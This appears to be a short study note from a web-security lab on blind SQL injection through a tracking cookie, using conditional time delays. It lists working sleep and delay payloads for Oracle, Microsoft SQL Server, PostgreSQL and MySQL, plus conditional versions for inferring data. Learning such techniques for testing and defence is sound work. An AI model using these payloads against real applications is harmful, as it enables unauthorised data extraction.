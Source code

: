 # Scenario
1. The application uses a tracking cookie and performs a **SQL query** containing the value of the submitted cookie.
2. Results of the SQL query are not returned.
3. The application does not respond any differently based on whether the query returns any rows or causes an error.
4. The query is executed synchronously, it is possible to trigger **conditional time delays** to infer information. 

# Payload

**Oracle** 	dbms_pipe.receive_message(('a'),10)
**Microsoft** 	WAITFOR DELAY '0:0:10'
**PostgreSQL** 	SELECT pg_sleep(10)
**MySQL** 	SELECT SLEEP(10) 

**Oracle** 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
**Microsoft** 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
**PostgreSQL** 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
**MySQL** 	SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a') 

# Note
1. Use `and`, `or`, `||` (string concatenate, 'he'||'llo' -> 'hello') to trigger time delays
